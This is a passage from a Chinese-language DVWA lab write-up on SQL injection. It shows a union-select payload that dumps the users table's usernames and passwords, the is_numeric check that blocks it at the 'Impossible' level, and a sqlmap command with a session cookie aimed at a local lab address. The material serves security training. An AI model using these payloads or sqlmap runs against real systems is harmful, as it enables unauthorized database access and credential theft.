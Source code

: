 爆出字段名`user_id,first_name,last_name,user,password,avatar,last_login,failed_login`



```
1' union select user,password from users#
```

获取账号密码

![image-20250111205147075](../../_media/image-20250111205147075.png)





### Security Impossible

可以看到关键的一步就是限制为纯数字

```
if(is_numeric( $id ))
```



### SQLMap工具注入

#### Security Low

记住要加上cookie

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low"
```

然后一直按y即可
